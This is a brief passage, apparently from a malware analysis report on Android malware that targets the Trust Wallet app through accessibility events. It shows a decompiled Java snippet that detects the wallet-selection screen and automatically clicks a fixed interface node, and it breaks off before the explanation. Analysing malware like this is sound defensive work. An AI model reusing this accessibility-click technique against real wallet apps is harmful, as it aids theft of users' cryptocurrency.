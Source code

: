 ![Fig 8. Wallets node being targeted](image%206.png)

Fig 8. Wallets node being targeted

---

### 2b. `WalletsActivity` - Wallet Selection

```java
if (event.getClassName().toString()
        .equals("com.wallet.crypto.trustapp.ui.wallets.activity.WalletsActivity")) {
    try {
        nodeInfo.getChild(3).getChild(1).getChild(0).getChild(2).performAction(16);
        return;
    } catch (Exception e2) {
        return;
    }
}

```

**What it does:**

